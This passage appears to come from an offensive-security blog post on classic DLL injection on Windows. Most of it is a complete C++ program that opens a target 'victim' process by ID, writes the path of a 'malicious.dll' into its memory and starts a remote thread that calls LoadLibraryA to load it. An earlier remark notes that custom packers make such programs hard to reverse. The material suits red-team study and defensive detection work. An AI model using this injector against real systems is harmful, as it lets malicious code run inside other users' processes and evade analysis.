 One of the advantages of writing your programs into a basic language like C/C++ is that they can't be easily reversed or de-compiled, more so if you also use a custom packer.

## Keeping it classy

If you were to search for some implementations on the Internet, you would probably find something similar to [my code](https://github.com/rbctee/ProcessInjection/blob/master/techniques/classic_dll_injection/code/cpp/simple.cpp):

Removing the comments and the conditional statements checking the return values of the functions, it's possible to keep the source code under thirty lines of code:

```cpp
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>

int main(int argc, char* argv[])
{
    unsigned int victimProcessId;

    if (argc > 1)
    {
        victimProcessId = atoi(argv[1]);
    }
    else
    {
        printf("[+] Usage:\n\tprogram.exe PID\n");
        return 1;
    }

    DWORD desiredAccess = PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ;
    HANDLE victimProcessHandle = OpenProcess(desiredAccess, NULL, victimProcessId);

    LPVOID allocatedMemory = VirtualAllocEx(victimProcessHandle, NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    char maliciousLibrary[] = "C:\\Users\\rbct\\Desktop\\malicious.dll";

    BOOL retVal = WriteProcessMemory(victimProcessHandle, allocatedMemory, maliciousLibrary, strlen(maliciousLibrary), NULL);
        
    HMODULE handleTargetModule = GetModuleHandleA("kernel32.dll");
    PVOID loadLibraryLocalAddress = GetProcAddress(handleTargetModule, "LoadLibraryA");

    HANDLE remoteThread = CreateRemoteThread(victimProcessHandle, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryLocalAddress, allocatedMemory, 0, NULL);
    
    WaitForSingleObject(remoteThread, INFINITE);
}
```
